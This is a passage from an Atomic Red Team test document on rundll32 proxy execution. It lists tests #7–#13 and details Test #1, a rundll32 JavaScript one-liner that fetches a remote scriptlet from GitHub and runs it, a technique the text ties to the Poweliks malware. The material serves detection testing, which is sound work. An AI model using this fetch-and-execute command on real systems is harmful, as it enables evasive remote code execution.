 - [Atomic Test #7 - Rundll32 setupapi.dll Execution](#atomic-test-7---rundll32-setupapidll-execution)

- [Atomic Test #8 - Execution of HTA and VBS Files using Rundll32 and URL.dll](#atomic-test-8---execution-of-hta-and-vbs-files-using-rundll32-and-urldll)

- [Atomic Test #9 - Launches an executable using Rundll32 and pcwutl.dll](#atomic-test-9---launches-an-executable-using-rundll32-and-pcwutldll)

- [Atomic Test #10 - Execution of non-dll using rundll32.exe](#atomic-test-10---execution-of-non-dll-using-rundll32exe)

- [Atomic Test #11 - Rundll32 with Ordinal Value](#atomic-test-11---rundll32-with-ordinal-value)

- [Atomic Test #12 - Rundll32 with Control_RunDLL](#atomic-test-12---rundll32-with-control_rundll)

- [Atomic Test #13 - Rundll32 with desk.cpl](#atomic-test-13---rundll32-with-deskcpl)

<br/>

## Atomic Test #1 - Rundll32 execute JavaScript Remote Payload With GetObject

Test execution of a remote script using rundll32.exe. Upon execution notepad.exe will be opened.
This has been used by Win32/Poweliks malware and works as described [here](https://www.stormshield.com/news/poweliks-command-line-confusion/)

Note: The GetObject function is no longer supported in Internet Explorer v9 (2011) and later so this technique would only work where very old versions of IE are installed.

**Supported Platforms:** Windows

**auto_generated_guid:** 57ba4ce9-ee7a-4f27-9928-3c70c489b59d

#### Inputs:

| Name     | Description             | Type | Default Value                                                                                            |
| -------- | ----------------------- | ---- | -------------------------------------------------------------------------------------------------------- |
| file_url | location of the payload | url  | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.011/src/T1218.011.sct |

#### Attack Commands: Run with `command_prompt`!

```cmd
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:#{file_url}").Exec();window.close();
```

#### Cleanup Commands:

```cmd
taskkill /IM notepad.exe /f
```

<br/>
<br/>

## Atomic Test #2 - Rundll32 execute VBscript command
